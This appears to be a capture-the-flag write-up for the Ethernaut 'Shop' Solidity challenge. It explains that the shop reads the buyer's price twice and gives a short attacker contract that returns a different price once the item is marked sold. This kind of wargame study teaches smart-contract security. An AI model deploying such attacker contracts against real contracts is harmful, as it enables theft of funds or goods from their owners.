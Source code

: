 # Shop Ethernaut

## Goals

=> Get the item from the shop for less than the price asked

### Hints

- Shop expects to be used from a Buyer
- Understanding restrictions of view functions

### Solution

- So the problem of the Shop contract is the `buyer.price()` is getting called twice, to pass the first if case it needs to return a value >= 100 and the isSold variable has to be falsy. After that the isSold variable gets changed to true and then the price gets set to the `buyer.price()` here we can now return another value, the cheapest way would be just reading storage from the `isSold` state in the shop contract and then returning another value when this is true e.g. `return shop.isSold() ? 0 : 100;`

### Attacker Contract

- Just call the `attack()` function and pass in the Shops address when deploying the contract.

```solidity
contract Hack is Buyer {
    Shop public shop;

    constructor(address _shopAddress) {
        shop = Shop(_shopAddress);
    }

    function price() external view override returns (uint) {
        return shop.isSold() ? 0 : 100;
    }

    function attack() external {
        shop.buy();
    }
}
```
